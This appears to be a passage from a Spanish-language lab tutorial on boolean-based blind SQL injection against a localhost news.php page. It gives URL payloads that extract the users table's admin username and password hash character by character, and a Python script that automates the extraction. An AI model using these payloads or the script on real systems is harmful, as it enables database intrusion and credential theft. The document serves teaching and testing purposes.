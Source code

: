 
### 5. Extracción de Datos de la Tabla Users

#### Contar registros en tabla users:
**URL:** `http://localhost/news.php?id=1%20AND%20(SELECT%20COUNT(*)%20FROM%20users)=3`
**Resultado esperado:** ✅ "Encontrado" (hay 3 usuarios)

#### Extraer username del primer usuario:
**URL:** `http://localhost/news.php?id=1%20AND%20SUBSTRING((SELECT%20username%20FROM%20users%20LIMIT%201),1,1)='a'`

**SQL Generada:**
```sql
SELECT id FROM blog WHERE id = 1 AND 
SUBSTRING((SELECT username FROM users LIMIT 1),1,1)='a'
```
**Resultado esperado:** ✅ "Encontrado" (si el primer usuario es 'admin')

#### Extraer password hash del primer usuario:
**URL:** `http://localhost/news.php?id=1%20AND%20SUBSTRING((SELECT%20password%20FROM%20users%20WHERE%20username='admin'),1,1)='5'`

**Proceso:** Repetir para cada carácter hasta extraer el hash completo.

---

## 🔧 Automatización con Script

### Script Python para Automatizar Extracción:
```python
import requests
import string

def blind_sqli_extract(base_url, query_template):
    result = ""
    position = 1
    
    while True:
        found_char = False
        
        # Probar cada carácter posible
        for char in string.ascii_letters + string.digits + '_':
            payload = query_template.format(position=position, char=char)
            url = f"{base_url}?id={payload}"
            
            response = requests.get(url)
            
            # Si encuentra el carácter (página contiene "Encontrado")
            if "Artículo Encontrado" in response.text:
                result += char
                found_char = True
                print(f"Posición {position}: {char} -> {result}")
                break
        
        if not found_char:
            break
            
        position += 1
    
    return result

# Ejemplo de uso
base_url = "http://localhost/news.php"
db_name_query = "1 AND SUBSTRING(database(),{position},1)='{char}'"
```